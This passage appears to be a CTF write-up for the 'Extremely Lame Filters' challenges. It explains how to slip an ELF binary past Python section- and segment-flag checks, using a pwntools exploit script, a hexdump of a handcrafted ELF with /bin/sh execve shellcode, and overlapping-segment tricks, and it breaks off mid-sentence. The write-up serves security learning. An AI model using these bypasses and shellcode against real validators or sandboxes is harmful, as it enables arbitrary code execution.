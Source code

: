 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set ``